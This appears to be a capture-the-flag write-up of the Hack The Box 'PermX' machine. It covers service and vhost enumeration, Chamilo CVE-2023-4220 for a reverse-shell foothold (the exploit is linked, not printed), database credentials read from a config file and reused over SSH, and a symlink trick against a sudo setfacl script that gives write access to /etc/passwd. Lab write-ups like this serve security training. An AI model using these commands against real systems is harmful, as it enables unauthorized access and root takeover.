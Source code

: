 +++
title = 'Permx'
date = 2024-08-24T16:50:47-04:00
draft = false
tags = ["linux"]
category = ["htb"]
summary = "HTB - Linux - Easy"
+++


# Enum
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


# 80/permx.htb
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Nmap picks up a hostname we need to add to our hosts file `permx.htb`

```bash
┌──(fish㉿kali)-[~/htb/sherlocks/noxious]
└─$ whatweb permx.htb     
http://permx.htb [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], Email[permx@htb.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.23], JQuery[3.4.1], Script, Title[eLEARNING]
```

Next up is directory enum and vhost enum

```bash
# ffuf vhost discovery filtering out status codes 302
┌──(fish㉿kali)-[~/htb/sherlocks/noxious]
└─$ ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u $URL -H 'Host: FUZZ.permx.htb' -fc 302
...
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 37ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 71ms]

```

Vhost discovery gets us two, `www` and `lms`. Nothing interesting from the initial dir enumeration of permx.htb. Maybe one of the vhosts.

```bash
┌──(fish㉿kali)-[~/htb/sherlocks/noxious]
└─$ gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -t 50 -x php --exclude-length 274 
...
/css                  (Status: 301) [Size: 304] [--> http://permx.htb/css/]
/img                  (Status: 301) [Size: 304] [--> http://permx.htb/img/]
/lib                  (Status: 301) [Size: 304] [--> http://permx.htb/lib/]
/.                    (Status: 200) [Size: 36182]
/js                   (Status: 301) [Size: 303] [--> http://permx.htb/js/]

```


## lms.permx.htb

```bash
# added to /etc/hosts
┌──(fish㉿kali)-[~/htb/sherlocks/noxious]
└─$ URL=http://lms.permx.htb 

...

┌──(fish㉿kali)-[~/htb/sherlocks/noxious]
└─$ gobuster dir -u $URL -w /opt/SecLists/Discovery/Web-Content/raft-large-words.txt -t 50 -x php -b 404,403 
...
/bin                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/bin/]
/user.php             (Status: 302) [Size: 0] [--> whoisonline.php]
/index.php            (Status: 200) [Size: 19356]
/LICENSE              (Status: 200) [Size: 35147]
/app                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/app/]
/web                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/web/]
/main                 (Status: 301) [Size: 313] [--> http://lms.permx.htb/main/]
/terms.php            (Status: 200) [Size: 16127]
/.                    (Status: 200) [Size: 19348]
/src                  (Status: 301) [Size: 312] [--> http://lms.permx.htb/src/]
/plugin               (Status: 301) [Size: 315] [--> http://lms.permx.htb/plugin/]
/documentation        (Status: 301) [Size: 322] [--> http://lms.permx.htb/documentation/]
/vendor               (Status: 301) [Size: 315] [--> http://lms.permx.htb/vendor/]
/certificates         (Status: 301) [Size: 321] [--> http://lms.permx.htb/certificates/]
/news_list.php        (Status: 200) [Size: 13995]
/custompages          (Status: 301) [Size: 320] [--> http://lms.permx.htb/custompages/]
/whoisonline.php      (Status: 200) [Size: 15471]
/user_portal.php      (Status: 200) [Size: 16154]

```


`Powered by chamilo` 

There's a recent CVE for chamilo >>https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-4220

Checking out to see if the bigUpload.php file exists, at `http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported`, it appears it does.


---
# Foothold

Wrote a python script to get a reverse shell with the upload vulnerability

https://github.com/thefizzyfish/CVE-2023-4220


```bash
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php
...
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
...
```

Found a config file with a potential db password. Looking at the /home directory there's another user we can try the cred for `mtz`.

```bash
┌──(fish㉿kali)-[~/htb/permx/CVE-2023-4220]
└─$ ssh mtz@10.10.11.23   
...
Last login: Mon Jul  1 13:09:13 2024 from 10.10.14.40
mtz@permx:~$ 

```

And we got user with `mtz:03F6lY3uXAP2bkW8`
## Exploits
https://github.com/thefizzyfish/CVE-2023-4220
#CVE-2023-4220


--- 
# PrivEsc

Since we have a password for `mtz` first step is to check sudo privs with `sudo -l`


We can run /opt/acl.sh.

```bash
mtz@permx:/opt$ cat acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"

```

There's a filter blocking us from specifying a path outside of `/home/mtz` or including `..` within the path. We can get around this by sym-linking to another file and running the command.

In this case I gave mtz control of the passwd file, we can remove the password for root by removing the x after the `root:`

```bash
mtz@permx:~$ ln -s /etc/passwd passwd.txt
mtz@permx:~$ sudo /opt/acl.sh mtz rwx /home/mtz/passwd.txt
mtz@permx:~$ head passwd.txt 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
mtz@permx:~$ 

```




## Exploits


---


# Post/Pivot



---




